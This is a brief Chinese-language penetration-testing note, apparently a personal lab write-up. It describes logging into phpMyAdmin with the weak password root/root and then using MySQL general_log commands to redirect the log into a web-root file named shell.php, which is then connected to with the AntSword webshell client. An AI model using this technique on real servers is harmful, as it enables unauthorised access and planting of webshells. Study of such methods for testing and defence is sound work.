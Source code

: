 # 日志shell
目录扫描发现phpadmin,尝试弱口令,root/root,登陆成功
接下来通过日志来写入shell
```
show variables like "%general_log%"//查询日志是否开启
set global general_log="on"//开启日志功能
set global general_log_file="C:\\phpStudy\\WWW\\shell.php";//改变日志路径,使其能够被访问
```
结果:
![](vx_images/19887466933139.png)
用蚁剑连接
![](vx_images/272774778281430.png)



